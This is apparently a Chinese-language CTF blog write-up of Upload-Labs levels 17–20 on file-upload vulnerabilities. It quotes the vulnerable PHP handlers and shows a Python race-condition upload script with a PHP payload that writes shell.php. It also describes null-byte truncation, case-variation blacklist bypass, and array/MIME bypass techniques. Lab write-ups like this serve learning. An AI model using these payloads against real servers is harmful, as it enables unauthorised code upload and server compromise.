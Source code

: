```yaml
---
title: Upload-Labs的最后几道题
categories: ['CTF']
tags: ['文件上传漏洞']
date: 2020-11-19 08:47:19
---
```



## Pass-17

​	（windows环境，php版本5.2.17，题号是18题）

源码：

```php
$is_upload = false;
$msg = null;

if(isset($_POST['submit'])){
    $ext_arr = array('jpg','png','gif');
    $file_name = $_FILES['upload_file']['name'];
    $temp_file = $_FILES['upload_file']['tmp_name'];
    $file_ext = substr($file_name,strrpos($file_name,".")+1);
    $upload_file = UPLOAD_PATH . '/' . $file_name;

    if(move_uploaded_file($temp_file, $upload_file)){
        if(in_array($file_ext,$ext_arr)){
             $img_path = UPLOAD_PATH . '/'. rand(10, 99).date("YmdHis").".".$file_ext;
             rename($upload_file, $img_path);
             $is_upload = true;
        }else{
            $msg = "只允许上传.jpg|.png|.gif类型文件！";
            unlink($upload_file);
        }
    }else{
        $msg = '上传出错！';
    }
}
```

​	思路和前面的一样，获取文件信息，移动文件到**upload**文件夹，第12行使用了白名单验证，多了第14行的`rename`函数，看名称就是重命名的函数，所以我们可以在重命名之前访问我们上传的文件，所以这题用到了**上传竞争**，使用`python`脚本不断的向服务器上传文件，然后访问上传的文件，上传的文件中有一句代码`<?php fputs(fopen('shell.php','w'),'<?php phpinfo();?>');?>`这段代码执行以后，会创建一个名为`shell.php`里面有一句`<?php phpinfo();?>`的文件。

​	脚本代码

```python
#coding=utf-8
import requests
from multiprocessing import Pool
def CompeteUpload(list):
    url="http://upload-labs/Pass-18/index.php"   #上传页面
    geturl="http://upload-labs/upload/233.php"	 #访问上传文件
    file={'upload_file':('233.php',"<?php fputs(fopen('shell.php','w'),'<?php phpinfo();?>');?>",'image/jpeg')}
    data={'submit':'上传'}
    r=requests.post(url=url,data=data,files=file)
    #print "test upload...."
    r1=requests.get(url=geturl)
    if r1.status_code==200:
        print ("upload success!")
if __name__=="__main__":
    pool = Pool(10)
    pool.map(CompeteUpload, range(10000))
    pool.close()
    pool.join()
```

​	第一次用python的我在这里知道了`pip`。这道题因为要不断的上传和访问文件，所以对在线靶场不友好，所以才选择了本地环境解题。完工

![](https://cdn.jsdelivr.net/gh/penginman/PicBed@master/artical/20201119090033.png)



## Pass-18（失手）

​	18题失手了没有思路，如果使用`include.php`文件包含的话还可以，看了看网上大部分的博客都是敷敷衍衍过去的，找到了一篇稍微有点思路的，使用的是`apache2.2.x的解析漏洞`，这个漏洞的思路就是，apache服务器在解析有多个后缀名的文件时，从最后一个开始向前扫描，如果不认识就跳过，直到遇到一个认识的文件后缀，就把这个文件以这个能识别的后缀解析。

[Apache文件解析漏洞](https://blog.csdn.net/qq_32434307/article/details/79480316)

[apache httpd多后缀解析漏洞复现](https://www.cnblogs.com/yuzly/p/11226377.html)

​	源码中还有一个可以突破的点是同样使用了**重命名函数**，所以应该还是可以使用竞争上传访问得到，但是使用了白名单验证，我实在是没招了所以~~先摸为敬~~。



## Pass-19

（windows环境，php5.2.17，magic_quotes_gpc=Off）

源码：

```php
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
    if (file_exists(UPLOAD_PATH)) {
        $deny_ext = array("php","php5","php4","php3","php2","html","htm","phtml","pht","jsp","jspa","jspx","jsw","jsv","jspf","jtml","asp","aspx","asa","asax","ascx","ashx","asmx","cer","swf","htaccess");

        $file_name = $_POST['save_name'];
        $file_ext = pathinfo($file_name,PATHINFO_EXTENSION);

        if(!in_array($file_ext,$deny_ext)) {
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH . '/' .$file_name;
            if (move_uploaded_file($temp_file, $img_path)) { 
                $is_upload = true;
            }else{
                $msg = '上传出错！';
            }
        }else{
            $msg = '禁止保存为该类型文件！';
        }

    } else {
        $msg = UPLOAD_PATH . '文件夹不存在,请手工创建！';
    }
}
```

​	源码第七行使用了**POST**来接受文件的命名，前面有类似题的是使用了**0x00截断上传**，后面也同样是`move_uploaded_file`移动文件的函数，还使用了黑名单验证，方法就很明确，使用**截断上传**。别忘了截断上传需要的特定条件：php版本需要低于`5.3.29`、`magic_quotes_gpc`需要为关闭状态。

![](https://cdn.jsdelivr.net/gh/penginman/PicBed@master/artical/20201119164220.png)

​	同样是命名为`phpa`方便在十六进制表里修改为`00`

![](https://cdn.jsdelivr.net/gh/penginman/PicBed@master/artical/20201119162729.png)

​	打开图片把url链接`http://upload-labs/upload/upload-19.php�`修改一下即可。完工

![](https://cdn.jsdelivr.net/gh/penginman/PicBed@master/artical/20201119164458.png)

​	其实这道题还有一个思路，因为题目使用了**黑名单验证**，分析源码没有设置大小写过滤，所以也可以使用大小写方法通过如`Php`，不演示了。



## Pass-20

（LInux环境，php7.2.21）

源码：

```php
$is_upload = false;
$msg = null;
if(!empty($_FILES['upload_file'])){
    //检查MIME
    $allow_type = array('image/jpeg','image/png','image/gif');
    if(!in_array($_FILES['upload_file']['type'],$allow_type)){
        $msg = "禁止上传该类型文件!";
    }else{
        //检查文件名
        $file = empty($_POST['save_name']) ? $_FILES['upload_file']['name'] : $_POST['save_name'];
        if (!is_array($file)) {
            $file = explode('.', strtolower($file));
        }

        $ext = end($file);
        $allow_suffix = array('jpg','png','gif');
        if (!in_array($ext, $allow_suffix)) {
            $msg = "禁止上传该后缀文件!";
        }else{
            $file_name = reset($file) . '.' . $file[count($file) - 1];
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH . '/' .$file_name;
            if (move_uploaded_file($temp_file, $img_path)) {
                $msg = "文件上传成功！";
                $is_upload = true;
            } else {
                $msg = "文件上传失败！";
            }
        }
    }
}else{
    $msg = "请选择要上传的文件！";
}
```

​	这道题使用了`MIME`验证和白名单验证。先看第10行使用了`三目运算符`判断`$_POST['save_name']`是否为空，若为空则执行`:`前获取上传文件的名称，若不为空则获取POST中的`save_name`。第11行使用了`is_array`函数判断是否是一个数组，然后使用`explode`截断文件名转换小写并返回数组。也就是说，如果我们POST中的`save_name`是个数组的就可以跳过11行的判断。15行使用`end`函数获取数组中的最后一个元素用于后缀验证。20行把文件名进行拼接：数组**第一个**元素+数组元素**总数-1**的那个元素。

所以我们可以构造一个这样的数组用于绕过：

![](https://cdn.jsdelivr.net/gh/penginman/PicBed@master/artical/20201119170734.png)

​	数组[2]用于绕过白名单，文件名为：`数组[0].数组[1]`，但是数组[1]是空的所以只剩下`数组[0].`（后面有个点）

​	别忘了还要绕过**MIME**

![](https://cdn.jsdelivr.net/gh/penginman/PicBed@master/artical/20201119172340.png)

![](https://cdn.jsdelivr.net/gh/penginman/PicBed@master/artical/20201119172415.png)

完工

## 最后

​	Upload labs的20道题大部分完成了，有两道题没完成，但是也学到了不少东西，这些天再抽空写一个总结吧。射射观看。